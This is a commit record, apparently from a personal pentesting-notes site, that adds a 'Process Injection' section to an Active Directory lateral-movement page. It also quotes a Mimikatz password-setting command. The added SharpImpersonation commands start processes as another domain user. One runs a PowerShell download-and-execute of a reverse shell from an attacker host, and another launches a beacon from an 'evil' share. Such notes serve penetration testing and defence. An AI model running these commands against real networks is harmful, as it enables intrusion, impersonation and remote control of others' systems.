

Before and after one commit to mvc1009/hackingnotes, a Jekyll site: the page built from _docs/active-directory/lateral-movement.md, in a window 1280 px wide and 900 px high, scrolled down 5045 px. Shown: the whole window, without its empty margins (357-1221 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5396 px from its top, so only the background shows below that.

Commit message:
Process Injection

````diff
--- a/_docs/active-directory/lateral-movement.md
+++ b/_docs/active-directory/lateral-movement.md
@@ -167,3 +167,21 @@ Invoke-Mimikatz -Command '"lsadump::setntlm /server:dc01 /user:jeff /ntlm:<NTLM>
 ```
 
 * [https://stealthbits.com/blog/manipulating-user-passwords-with-mimikatz/](https://stealthbits.com/blog/manipulating-user-passwords-with-mimikatz/)
+
+# Process Injection
+
+We can also inject our shellcode or our binary to a process running by a user. Notice that **elevated privileges are needed**.
+
+* [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)
+
+Get a list of running processes:
+```
+.\SharpImpersonation.exe list elevated
+```
+
+Inject on a process which is run by a specific user:
+```
+.\SharpImpersonation.exe user:CORP\jwick binary:"powershell.exe"
+.\SharpImpersonation.exe user:CORP\jwick binary:"powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://ipkali/rev.ps1')"
+.\SharpImpersonation.exe user:CORP\jwick binary:"\\evil.corp.local\share\beacon.exe"
+```
````
